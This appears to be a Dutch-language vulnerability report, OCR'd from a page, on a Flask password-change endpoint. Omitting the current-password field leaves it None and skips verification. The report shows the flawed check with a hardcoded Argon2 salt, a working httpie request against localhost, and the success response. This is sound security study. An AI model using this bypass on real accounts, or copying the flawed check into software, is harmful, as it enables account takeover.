 ```python
password = request.form.get('password')
new = request.form.get('new')
repeat = request.form.get('repeat')
```

Hierna zal worden gekeken of:
- Het wachtwoord niet ```None``` is.
- Het gehashte wachtwoord niet overeenkomt met de bestaande hash.

```python
if ( password is not None and pwhash != argon2.argon2_hash(password=str(password), salt="XQEXFggkPcw9BtuGkn4ELm4a7r7MUKTjBW2fjaVv6ou8mJ9ZrfEQBYhiGqQ6LzRz", t=16, m=8, p=1, buflen=128, argon_type=argon2.Argon2Type.Argon2_i) ):
```

Als beide stellingen ontjuist zijn zal server de foutmelding returnen: ```result = 'Password is not correct'```. Dus als het wachtwoord None is, zal het ```if``` statement niet naar true evalueren en zal de caller dus niet de foutmelding ontvangen. De rest van de checks zijn makkelijk te omzeilen. De caller moet enkel ```new``` sturen met een lengte groter dan ```16``` en een ```repeat``` die gelijk is aan ```new```.

### Evidence
Bij het sturen van de volgende request:
```
http -f POST localhost:5000/password new=qwertyuiopasdfgh repeat=qwertyuiopasdfgh
```
Zal het commando:
```python
request.form.get('password')
```
worden geëvalueerd naar ```None```.
Dit betekent dat als de check
```python
if password is not None #......
```
wordt uitgevoerd, dit niet voldoet aan de gestelde eisen.
Om deze rede krijgt de caller de volgende response:
```html
HTTP/1.0 200 OK
Content-Length: 1565
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Nov 2020 19:57:55 GMT
Server: Werkzeug/1.0.1 Python/3.7.9

<!DOCTYPE html>
<html>
<body>
<h1>Change your password</h1>

<p>The form below can be used to change your password.</p>
<form method=POST action=/password>
  <table border=0>
    <tr><td>Current password <td>: <td><input name=password value=>
    <tr><td>New password <td>: <td><input name=new value=>
        <tr><td>Repeat new password <td>: <td><input name=repeat value=>
            <tr><td> <td> <td><input type=submit value="Change password">
                </table>
</form>

<h2>Password changed succesfully!</h2>
```
